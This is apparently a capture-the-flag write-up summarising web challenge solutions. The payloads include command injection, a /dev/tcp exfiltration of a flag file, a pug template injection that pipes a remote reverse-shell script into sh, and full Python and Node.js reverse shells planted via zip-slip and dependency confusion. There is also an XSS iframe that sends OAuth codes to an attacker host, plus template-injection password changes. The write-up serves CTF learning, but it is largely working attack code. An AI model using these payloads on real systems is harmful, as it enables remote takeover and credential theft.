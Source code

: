 # Summary
-----------

## Swaggy (Easy 50pts)
1. There's a list of available APIs.
2. Use `Authorization` header with creds admin:admin

## Confidentiality (Easy 50pts)
1. Command injection, `| cat flag.txt`

## Titanic (Easy 50pts)
1. URLCapture to http://localhost/server-status
2. Get credential of `root`
3. Log in

## Integrity (Medium 50pts)
1. Command Injection, `%0acat flag.txt`

## All Baked Up (Medium 359pts)
1. GraphQL Injection
2. Get a credential for authorized user
3. Use mutation for authenticating user
4. Use token and querying flag

## OPA Secrets (Hard 298pts)
1. Download Source code at `/security`
2. JSON Injection in username `nyx","role":"admin`
3. Replacing role to admin
4. Create a secret and view it
5. Change it to id flag note

## Availability (Hard 357pts)
1. Command Injection, `%0acat flag.txt > /dev/tcp/ip_addr/port`

## Unpugify (Hard 480pts)
1. Application using pug and pug-code-gen, it has a critical security issue

template
```
html
  head
  body
    mixin print(text)
      p= text

    +print('Hello, world')
```
pretty
```
');process.mainModule.constructor._load('child_process').exec('curl https://reverse-shell.sh/ip_addr:port | sh');_=('
```

## Bumblebee (Hard 491pts)
1. Debug mode is enable
2. Send array in parameter to trigger error handling and leak snippet code
3. Zip file must have `.flower` extension
4. Django version is vulnerable with zip-slip
5. Replace `/usr/src/app/manage.py` using zip-slip then refresh

manage.py
```
#!/usr/bin/env python
import os
import sys
import socket,subprocess,os

if __name__ == '__main__':
    
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("ip_addr",port))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    subprocess.call(["/bin/sh","-i"])

    os.environ.setdefault('DJANGO_SETTINGS_MODULE', 'bumblebee.settings')
    try:
        from django.core.management import execute_from_command_line
    except ImportError as exc:
        raise ImportError(
            "Couldn't import Django. Are you sure it's installed and "
            "available on your PYTHONPATH environment variable? Did you "
            "forget to activate a virtual environment?"
        ) from exc
    execute_from_command_line(sys.argv)
```

## Spiral CI (Hard 496pts)
1. Application accepting JWT `none` algorithm
2. Tampering `user_id` to `2`
3. Calculator Project using local dependency
4. Vulnerable to dependency confusion
calc.test.js
```
var net = require('net');
var spawn = require('child_process').spawn;
HOST="ip_addr";
PORT="port";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { 
    String.prototype.contains = function(it) { 
        return this.indexOf(it) != -1; 
    }; 
}
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit', function(code,signal){
            client.end("Disconnected!\\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
```

## Sticky Notes (Hard 500pts)
1. The flow of oauth login for this application is something like this
`sticky-notes/oauth/signin -> oaut/oauth/authorize?state=nyx -> sticky-notes/signin_callback?code=steal&state=nyx`
2. Sticky notes application have XSS in `report a problem`
3. Steal `code` using `iframe`
4. Set `iframe` to oauth application using valid `state` and default value `redirect_url`
5. The oauth application will redirecting to sticky notes with `code` parameter
6. Send the current url to our webhook using js

payload
```
<iframe src="http://challenge.ctf.games:30090/oauth/authorize?response_type=code&client_id=QJ7Bo88ZBioNTZSXTOJrMYDx&redirect_uri=http%3A%2F%2Fchallenge.ctf.games%3A31941%2Foauth%2Fsignin_callback&scope=profile&state=Ezw28CyQiDeKDBTLMzio4O5hS7fP1C&action=signin" onload="fetch('//ip_addr:port/?'+btoa(this.contentWindow.location.href))">
</iframe>
```

## Go Blog (Hard 500pts)
1. `url/models/` and `url/web/` leaking source code
2. Username parameter have SSTI
3. `{{.}}` get credentials of admin but password is encrypted in sha512
3. Set username to `{{.CurrentUser.ChangePassword 'nyx'}}` and visit `/profile` will change our account password to `nyx`.
4. Set username to `{{.Post.Author.ChangePassword 'nyx'}}` and visit `/post/{post_uuid_admin}` will change the password the author of post to `nyx`
5. Change password of admin, logged in and visit `/admin`
